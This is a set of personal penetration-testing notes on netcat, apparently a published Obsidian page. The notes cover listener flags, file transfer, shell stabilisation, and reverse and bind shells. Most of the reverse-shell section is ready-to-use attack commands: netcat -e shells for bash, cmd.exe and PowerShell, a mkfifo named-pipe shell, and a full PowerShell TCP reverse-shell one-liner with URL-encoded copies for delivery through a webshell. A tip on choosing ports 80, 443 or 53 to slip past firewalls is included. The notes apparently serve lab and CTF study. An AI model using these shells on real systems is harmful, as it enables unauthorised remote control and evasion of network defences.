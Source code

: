 ```yaml
---
{"dg-publish":true,"permalink":"/notes/netcat/"}
---
```


- "Swiss Army Knife" of networking.
- Perform all kinds of network interactions.
- Support [[Networking/TCP\|TCP]] and [[UDP\|UDP]]
- Used to receive reverse shells and connect to remote ports attached to bind shells on a target system.
- If you choose to use a **port below 1024**, you will need to use `sudo` when starting your listener.
- It's **good idea** to **use** a **well-known** port number (**80, 443 or 53** being good choices) as this is more likely to get **past** outbound **firewall rules** on the target.

| Command   | Description                                                                        |
| --------- | ---------------------------------------------------------------------------------- |
| `-l`      | is used to tell netcat that this will be a listener                                |
| `-n`      | tells netcat not to resolve host names or use DNS. avoid DNS lookups and warnings. |
| `-v`      | is used to request a verbose output                                                |
| `-p`      | indicates that the port specification will follow.                                 |
| `-vv`     | Very Verbose (optional)                                                            |
| `-k`      | Keep listening after client disconnects                                            |
| `-w SECS` | Timeout for connects and final net reads                                           |
# Transfer files
1. On the destination machine
```shell
nc -lp 1234 > file.txt
```
2. On the source machine
```shell
nc -w 3 IP_destination 1234 < file.txt
```

# Shell stabilization
## Technique 1: Python
1. Uses Python to spawn a better featured bash shell;
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
some targets may need replace `python` with `python2` or `python3`
2. access to term commands such as `clear`.
```sh
export TERM=xterm
```
3. Background the shell using Ctrl + Z.
```sh
stty raw -echo; fg
```
This does two things: 
- First, it **turns off our own terminal echo** (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).
- then **foregrounds the shell,** thus completing the process.
- Note that **if the shell dies,** any input in your own terminal will **not be visible** (as a result of having disabled terminal echo). To **fix this, type** `reset` and press enter.
## Technique 2: rlwrap
- Rlwrap is a program which, in simple terms, gives us **access to history**, **tab autocompletion** and the **arrow keys** immediately upon receiving a shell
``` sh
rlwrap nc -lnvp <port>
```
- particularly useful when dealing with Windows shells
- On Linux target, it's possible to completely stabilise,
- using Ctrl + Z.
```sh
stty raw -echo; fg
```
## Technique 3: [[socat\|Socat]]
## Technique 4: [[Notes/SSH\|SSH]]

## Extra 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- On my machine to get info from stty
```sh
stty -a
```
- Next, in your reverse/bind shell, type in:
`stty rows <number>`  
and
`stty cols <number>`


</div></div>


# Reverse shell
## On the target
### nc basic bash
#### Linux
```sh
nc <LOCAL-IP> <PORT> -e /bin/bash
```
**On Windows** this technique will **work perfectly**, where a static binary is nearly always required
#### Windows
**Command Prompt**
```sh
nc 10.10.38.232 443 -e “cmd.exe”
```
powershell
```sh
nc 10.10.38.232 443 -e “powershell.exe”
> ```

this is **not included in most versions of netcat** as it is widely seen to be very insecure **so**:
### Create a [[named pipe\|named pipe]]
```sh
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
### Powershell reverse shell
It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a **webshell**)
```sh
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```sh
powershell+-c+"$client+%3d+New-Object+System.Net.Sockets.TCPClient('10.13.41.201',4747)%3b$stream+%3d+$client.GetStream()%3b[byte[]]$bytes+%3d+0..65535|%25{0}%3bwhile(($i+%3d+$stream.Read($bytes,+0,+$bytes.Length))+-ne+0){%3b$data+%3d+(New-Object+-TypeName+System.Text.ASCIIEncoding).GetString($bytes,0,+$i)%3b$sendback+%3d+(iex+$data+2>%261+|+Out-String+)%3b$sendback2+%3d+$sendback+%2b+'PS+'+%2b+(pwd).Path+%2b+'>+'%3b$sendbyte+%3d+([text.encoding]%3a%3aASCII).GetBytes($sendback2)%3b$stream.Write($sendbyte,0,$sendbyte.Length)%3b$stream.Flush()}%3b$client.Close()"
```

```sh
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5
```
## On the attacker
65535 total number of ports
To open tcp/udp in a host, assosiate a shell to a port, force UDP/TCP conexions
port 30000
```bash
nc localhost 4747
```

ncat has more options like encrypt with ssl
``` bash
ncat --ssl 127.0.0.1 30001
```
### Listener revershell
Start a listener using rlwrap to try to simulate an interactive console
``` sh
rlwrap nc -lnvp 4747
```
# Bind shell
## On the target(listener)
```bash
nc -lnvp <port> -e /bin/bash
```

On Linux, however, we would instead use this code to create a listener for a bind shell:
[[named pipe\|named pipe]]
```sh
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Or get a cmd on windows
```sh
nc -lvnp <port> -e "cmd.exe"
```
## On the attacker
```bash
nc <target-ip> <chosen-port>
```
